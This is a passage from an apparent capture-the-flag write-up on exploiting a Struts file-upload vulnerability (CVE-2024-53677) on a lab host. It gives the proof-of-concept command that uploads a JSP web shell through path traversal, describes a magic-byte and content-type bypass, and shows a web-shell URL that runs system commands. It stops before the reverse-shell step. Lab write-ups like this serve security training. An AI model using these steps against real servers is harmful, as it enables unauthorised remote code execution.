 We got a File Upload vulnerability, let's read how the vulnerability works:

![](cybersecurity/images/Pasted%2520image%252020250325122944.png)


We can find the PoC, let's check it out:

PoC: https://github.com/TAM-K592/CVE-2024-53677-S2-067




# EXPLOITATION
---


After checking the PoC, we can do the following, let's start the exploitation phase, for example, we can modify the `shell.jsp` file with these contents:

```
proxychains python3 S2-067.py -u http://strutted.htb --upload_endpoint /upload.action --files shell.jsp --destination ../../shell.jsp
```


Now, let's start our proxy and check the request:

![](cybersecurity/images/Pasted%2520image%252020250325124601.png)

On the reconnaissance, we were able to find the following source codes:


![](cybersecurity/images/Pasted%2520image%252020250325124709.png)

This means we need to modify the request in the following way:

![](cybersecurity/images/Pasted%2520image%252020250325124830.png)

Let's change the content type and the extension of the file, now, based on the code, we also need to change the magic bytes, let's do it:


![](cybersecurity/images/Pasted%2520image%252020250325130106.png)

After changing this, we can see the following:

![](cybersecurity/images/Pasted%2520image%252020250325130141.png)

Once we've uploaded it, we can access the file with and test a basic RCE:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=id
```

![](cybersecurity/images/Pasted%2520image%252020250325142213.png)

There we go, it worked, we can now send ourselves a shell, we need to do it in the following format:

